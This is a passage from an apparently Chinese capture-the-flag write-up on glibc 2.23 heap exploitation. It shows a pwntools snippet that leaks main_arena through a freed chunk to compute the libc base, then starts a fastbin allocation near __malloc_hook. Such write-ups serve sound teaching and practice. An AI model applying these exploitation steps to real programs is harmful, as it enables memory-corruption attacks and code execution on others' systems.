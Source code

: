    ![0x6](/img/image-20220723230203073.png)

   利用dump选项泄漏babychunk4的fd（main_arena+88），计算libc基址。

   ```python
   dump(2)
   p.recvuntil("Content: \n")
   arena_addr = u64(p.recv(8)) - 88
   main_arena_offset = ELF("libc-2.23.so").symbols["__malloc_hook"] + 0x10 #wiki上获取基址的方法 
   libc_base = arena_addr - main_arena_offset
   ```

2. 实施`arbitrary alloc`

   将chunk分配到__malloc_hook附近

   ![0x7](/img/image-20220724030049259.png)
